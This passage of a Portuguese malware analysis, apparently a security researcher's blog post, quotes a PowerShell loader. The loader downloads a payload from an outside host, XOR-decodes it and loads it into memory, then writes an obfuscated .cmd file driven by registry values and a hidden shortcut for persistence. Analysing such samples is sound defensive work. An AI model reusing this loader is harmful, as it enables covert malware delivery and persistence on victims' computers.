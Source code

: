 ```
$WebRequest = [System.Net.WebRequest]::Create($urlPL)
```

Outro script compartilhado no grupo (e muito semelhante [a outros](https://www.reverse.it/sample/899df4d5a05a19001aec49efdc2c5b17a9223325df8101fc1b2206112f7cb5a2?environmentId=100) mais antigos) através [pastebin](https://pastebin.com/nMxjQFdW) elucida esta questão.

```
$fileName = "$env:TEMP\$([System.DateTime]::Now.ToString('yyyyMMdd'))"
$bExists = [System.IO.File]::Exists($fileName)
 
if (-Not $bExists) {
    "" | Set-Content $fileName
 
    $bytes = (New-Object Net.WebClient).DownloadData("https://dlm.supote.com/?dWNhuwaAZasGuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJv/DWmhFcHLLkAlCKJK/mX6+9WjQfBawFQ8UJG9ig0=")
 
    for($i=0; $i -lt $bytes.count; $i++) {
        $bytes[$i] = $bytes[$i] -bxor 0x6A
    }
 
    [Reflection.Assembly]::Load($bytes)
 
    $rInt = [Loader]::randomInt(4, 16)
    $prefix = "$([Loader]::RandomString($rInt))-"
 
    [Loader]::Go3("https://dlm.supote.com","f2dgvQaFZKoKuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJv6NXK6DerhCEAmIqIR/mGlr+CoQK4XlFM8UQ==","cWJhugWEZKABuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJv6NXK6DerhCEAmIqJW1Hbfq+D9F/kflgE1UA==","dGZnuA2Da6YKuIJdSOhrb8WFtI5DZQVA84vcRVNLTnjlK6L0bndQxwBUYz4oft6IGQeMqJv6NXK6DerhCEAmIqJW1UvY69WjQfBakVo0AJe12gk=","dmhjvAyBZ6YG9ptBe8pKTMCSgpReVTFZxJLrYnw9MXfsCILXa3FjyhosNA8yROSsOSOqjrjbPFOwN9DFNHgABIFrwG3Ry6yEH/0b3QAwVZa6iwkp",$prefix)
 
    $var1 = [Loader]::RandomString($rInt)
    $var2 = [Loader]::RandomString($rInt)
    $var3 = [Loader]::RandomString($rInt)
 
    $cmdFileName = "$([Loader]::outDir)\$([Loader]::RandomString([Loader]::randomInt(6, 16))).cmd"
 
    $cmdSource  =  "@Echo off`r`n"
    $cmdSource  += "Setlocal EnableExtensions`r`n"
    $cmdSource  += "Setlocal EnableDelayedExpansion`r`n"
    $cmdSource  += "Set $var1=HKCU`r`n"
    $cmdSource  += "Set $var1=%$var1%\Software`r`n"
    $cmdSource  += "Set $var1=%$var1%\Microsoft`r`n"
    $cmdSource  += "Set $var2=`r`n"
    $cmdSource  += "FOR /F `"usebackq tokens=1,2*`" %%1 IN (``REG QUERY %$var1%``) DO (`r`n"
    $cmdSource  += "Set $var3=%%11`r`n"
    $cmdSource  += "IF `"!$var3`:~0,$($prefix.Length)!`"==`"$prefix`" (`r`n"
    $cmdSource  += "Set $var2=!$var2!%%3`r`n"
    $cmdSource  += ")`r`n"
    $cmdSource  += ")`r`n"
    $cmdSource  += "%$var2%`r`n"
    $cmdSource | Set-Content $cmdFileName
 
    $lnkFileName = "$([Loader]::outDir)\$env:USERNAME.lnk"
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($lnkFilename)
    $Shortcut.TargetPath = $cmdFileName
    $Shortcut.WindowStyle = 7
    $Shortcut.Save()
 
    $TaskStartTime = [datetime]::Now.AddSeconds(5)
    $TaskEndTime = [datetime]::Now.AddSeconds(35)
```

[^1]: Caso tenha alguma correção ou informação adicional, pode me enviar em cpuodzius@fireshellsecurity.team que farei as devidas alterações no post.